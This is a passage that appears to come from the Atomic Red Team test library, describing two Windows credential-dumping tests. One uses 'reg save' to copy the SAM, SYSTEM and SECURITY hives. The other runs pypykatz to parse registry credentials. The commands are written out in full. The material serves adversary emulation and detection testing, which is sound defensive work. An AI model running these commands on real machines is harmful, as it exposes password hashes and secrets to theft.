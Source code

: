 <br/>

## Atomic Test #1 - Registry dump of SAM, creds, and secrets

Local SAM (SAM & System), cached credentials (System & Security) and LSA secrets (System & Security) can be enumerated
via three registry keys. Then processed locally using https://github.com/Neohapsis/creddump7

Upon successful execution of this test, you will find three files named, sam, system and security in the %temp% directory.

**Supported Platforms:** Windows

**auto_generated_guid:** 5c2571d0-1572-416d-9676-812e64ca9f44

#### Attack Commands: Run with `command_prompt`! Elevation Required (e.g. root or admin)

```cmd
reg save HKLM\sam %temp%\sam
reg save HKLM\system %temp%\system
reg save HKLM\security %temp%\security
```

#### Cleanup Commands:

```cmd
del %temp%\sam >nul 2> nul
del %temp%\system >nul 2> nul
del %temp%\security >nul 2> nul
```

<br/>
<br/>

## Atomic Test #2 - Registry parse with pypykatz

Parses registry hives to obtain stored credentials

**Supported Platforms:** Windows

**auto_generated_guid:** a96872b2-cbf3-46cf-8eb4-27e8c0e85263

#### Attack Commands: Run with `command_prompt`! Elevation Required (e.g. root or admin)

```cmd
pypykatz live registry
```

#### Dependencies: Run with `command_prompt`!

##### Description: Computer must have python 3 installed

##### Check Prereq Commands:
